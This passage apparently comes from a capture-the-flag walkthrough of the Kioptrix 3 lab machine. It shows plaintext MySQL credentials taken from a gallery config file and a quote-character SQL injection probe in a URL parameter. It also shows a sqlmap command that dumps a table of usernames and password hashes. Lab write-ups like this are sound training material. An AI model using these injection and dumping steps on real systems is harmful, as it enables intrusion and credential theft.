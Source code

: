 So, there's all the source code for the gallery. I checked the files that looked interesting until I came upon a hit on the <code>gconfig.php</code> file, which contains the sort of information we need:

``` plain
/*
	A sample Gallarific configuration file. You should edit
	the installer details below and save this file as gconfig.php
	Do not modify anything else if you don't know what it is.
*/

	$GLOBALS["gallarific_path"] = "http://kioptrix3.com/gallery";

	$GLOBALS["gallarific_mysql_server"] = "localhost";
	$GLOBALS["gallarific_mysql_database"] = "gallery";
	$GLOBALS["gallarific_mysql_username"] = "root";
	$GLOBALS["gallarific_mysql_password"] = "fuckeyou";
```

I tried SSHing to the box with these credentials and also elevating privileges with su, but that would have been too easy. So more digging in the Php source code. The <code>gfunctions.php</code> file contains a plethora of information, among which there are some table and column names. There might be more information in the Php files but I didn't have the patience to go through all of them.

Back at the gallery, we can see some sorting options:

{% img center /images/sort.png 'sort options' 'sort' %}

Changing the sort filter to *photo id* makes the URL look like this:

<code>http://kioptrix3.com/gallery/gallery.php?id=1&sort=photoid#photos</code>

And if I replace the <code>id=1</code> part with <code>id='</code>, the site spits back a SQL error:

*You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '' order by parentid,sort,name' at line 1Could not select category*

Now that I know SQLi is possible, it's time to fire sqlmap again!

``` plain
sqlmap -u "http://kioptrix3.com/gallery/gallery.php?id=1&sort=photoid#photos" --dbms=MySQL --level=5 --risk=3 --dump

Database: gallery
Table: dev_accounts
[2 entries]
+----+------------+----------------------------------+
| id | username   | password                         |
+----+------------+----------------------------------+
| 1  | dreg       | 0d3eccfb887aabd50f243b3f155c0f85 |
| 2  | loneferret | 5badcaf789d3d1d09794d8f021f40f0e |
+----+------------+----------------------------------+

```

